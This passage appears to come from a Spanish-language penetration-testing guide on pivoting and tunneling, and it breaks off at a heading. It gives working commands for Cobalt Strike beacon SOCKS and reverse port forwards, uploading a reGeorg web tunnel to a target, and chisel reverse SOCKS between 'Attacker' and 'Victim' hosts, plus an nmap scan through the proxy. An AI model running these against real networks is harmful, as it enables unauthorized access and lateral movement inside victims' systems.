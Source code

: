 Abra un puerto en el teamserver escuchando en todas las interfaces que se pueden utilizar para **enrutar el tráfico a través del beacon**.
```bash
beacon> socks 1080
[+] started SOCKS4a server on: 1080

# Set port 1080 as proxy server in proxychains.conf
proxychains nmap -n -Pn -sT -p445,3389,5985 10.10.17.25
```
### rPort2Port

{% hint style="warning" %}
En este caso, el **puerto se abre en el host del beacon**, no en el Servidor del Equipo y el tráfico se envía al Servidor del Equipo y desde allí al host:puerto indicado.
{% endhint %}
```bash
rportfwd [bind port] [forward host] [forward port]
rportfwd stop [bind port]
```
### rPort2Port local

{% hint style="warning" %}
En este caso, el **puerto se abre en el host de Beacon**, no en el Servidor de Equipo y el **tráfico se envía al cliente de Cobalt Strike** (no al Servidor de Equipo) y desde allí al host:puerto indicado.
{% endhint %}
```
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]
```
## reGeorg

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

Necesitas cargar un archivo de túnel web: ashx|aspx|js|jsp|php|php|jsp
```bash
python reGeorgSocksProxy.py -p 8080 -u http://upload.sensepost.net:8080/tunnel/tunnel.jsp
```
## Cincel

Puedes descargarlo desde la página de versiones de [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)\
Necesitas usar la **misma versión para el cliente y el servidor**

### socks
```bash
./chisel server -p 8080 --reverse #Server -- Attacker
./chisel-x64.exe client 10.10.14.3:8080 R:socks #Client -- Victim
#And now you can use proxychains with port 1080 (default)

./chisel server -v -p 8080 --socks5 #Server -- Victim (needs to have port 8080 exposed)
./chisel client -v 10.10.10.10:8080 socks #Attacker
```
### Reenvío de puertos
```bash
./chisel_1.7.6_linux_amd64 server -p 12312 --reverse #Server -- Attacker
./chisel_1.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505 #Client -- Victim
```
## Rpivot
